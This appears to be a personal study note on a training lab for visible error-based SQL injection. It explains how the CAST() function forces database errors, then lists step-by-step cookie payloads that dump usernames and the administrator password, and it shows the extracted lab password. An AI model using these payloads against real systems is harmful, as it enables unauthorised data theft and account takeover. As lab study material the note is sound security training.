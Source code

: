 Misconfiguration of the database sometimes results in verbose error messages.
For example, consider the following error message, which occurs after injecting a single quote into an `id` parameter:

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```
- This shows the full query that the application constructed using our input.
- This makes it easier to construct a valid query containing a malicious payload

One way generating verbose error messages is to use **CAST()** function. This effectively turns blind SQL injection to visible one.

### CAST()
- It enables you to convert one data type to another.
- For example, consider a query containing the following statement:
```sql 
CAST((SELECT example_column FROM example_table) AS int)
```
Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:
```text
ERROR: invalid input syntax for type integer: "Example data"
```
This type of query may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the query.

## Steps to solve Lab-1
### Desc - Visible error-based SQL injection

1. First confirm that the parameter(tracking-id) is vulnerable to blind SQLi
Vulnerable parameter - tracking cookie(tracking-id)
**Note** - If the SQL query causes an error, then the application returns a verbose error message.

**Checking the above note by putting a single quote**
![[verbose_SQL_error_messages.png]]
From above we can clearly say that it is vulnerable to SQL injection.

2. Now, we are going to use subquery and CAST the query to an int data type and observe the error message:
```SQL 
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' AND CAST((SELECT 1) AS int)--
```

Below performing on burp:
![[verbose_SQL_error_messages1.png]]
From above we can clearly see that, we are converting boolean to int.

3. Now, we are going to stop this error by using comparison operator:
![[verbose_SQL_error_messages2.png]]
From above, we can say that this is a valid query.

4. Now, we are going to search for username **administrator**:
query -->
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' AND 1=CAST((SELECT username FROM users) AS int)--
```

Below performing on burp:
![[verbose_SQL_error_messages3.png]]
**Reason for the above error message** - Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.

**To fix the above error, you need to delete the value of TrackingId**

Below performing on burp:
![[verbose_SQL_error_messages4.png]]
**Reason for the error** - Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.

5. Modifying the query to return only one row:
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Below performing on burp:
![[verbose_SQL_error_messages5.png]]
**Result** - From this we get to know that administrator user exist. administrator user is the first user in the database.

6. Modifying the query to return password of **administrator user:
   query --> 
   ```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'QczaHz170LHEUUE8' ' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Below performing on burp:
![[verbose_SQL_error_messages6.png]]
**Result** - The password of administrator is "hcagwqe36smsksjk6ymq"